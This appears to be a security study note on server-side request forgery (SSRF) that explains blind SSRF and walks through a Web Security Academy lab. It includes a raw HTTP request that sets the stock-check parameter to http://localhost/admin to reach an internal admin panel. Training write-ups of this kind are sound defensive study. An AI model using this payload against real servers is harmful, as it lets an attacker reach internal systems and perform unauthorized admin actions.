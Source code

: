 # SSRF (Server Side Request Forgery)

## Introduction
SSRF (Server Side Request Forgery) is a type of vulnerability that allows an attacker to force the server to make a request to different resources. These resources can include internal and external systems therefore you can potentially access information that should not usually be made available (internal) or make requests to external resources while making it look like it came from the vulnerable server.

## Blind SSRF

One type of SSRF is blind SSRF which is where you can make requests via the vulnerable server but their is no response returned back to the attacker on the front-end. One of the main methods of exploiting this is by using out of band techniques. Out of band techniques require the attacker to confirm the vulnerability by sending requests to a server they control.


## Lab: Basic SSRF against the local server

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 


```
POST /product/stock HTTP/1.1
Host: 0aef00a0047ce0a8c2f5704e00f10006.web-security-academy.net
Cookie: session=SQEfYWjhobfDGJYOf1aEhPh7fyxhAeWY
Content-Length: 37
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0aef00a0047ce0a8c2f5704e00f10006.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aef00a0047ce0a8c2f5704e00f10006.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http%3a%2f%2flocalhost/admin

```

